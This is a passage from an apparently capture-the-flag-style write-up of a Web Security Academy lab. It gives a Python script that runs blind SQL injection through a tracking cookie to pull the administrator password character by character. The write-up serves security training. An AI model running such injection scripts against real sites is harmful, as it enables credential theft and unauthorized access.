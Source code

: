 ```python
		r = s.get(url, cookies=cookies, proxies=proxies, verify=False)
		if re.search(r"Welcome back!", r.text):
			sys.stdout.write(j)
			sys.stdout.flush()
			i += 1
			done = False
			break
		else:
			continue
	if done:
		break
```

This works in brute-forcing the database version, albeit a little slow. Anyways, from this I can brute force the stuff within the `users` table. The structure is given to us already, so here's the final script:

```python
import requests
import re
import sys
import string
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0aa80019039dbe768097177d00ff001d'
COOKIE = 'cookie'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
i = 1
url = f'https://{HOST}.web-security-academy.net/'
s = requests.Session()
all_chars = string.ascii_lowercase + string.digits
while True:
	done = True
	for j in all_chars:
		#payload = f"' AND substring(version(),{i},1) = '{j}'--"
		payload = f"' AND (SELECT SUBSTRING(password,{i},1) FROM users WHERE username ='administrator') = '{j}'--"

		cookies = {
			'session': f'{COOKIE}',
			'TrackingId':'mAtlrZn449A7Xotk' + payload
		}
		# print(payload)
		r = s.get(url, cookies=cookies, proxies=proxies, verify=False)
		if re.search(r"Welcome back!", r.text):
			sys.stdout.write(j)
			sys.stdout.flush()
			i += 1
			done = False
			break
		else:
			continue
	if done:
		break
```
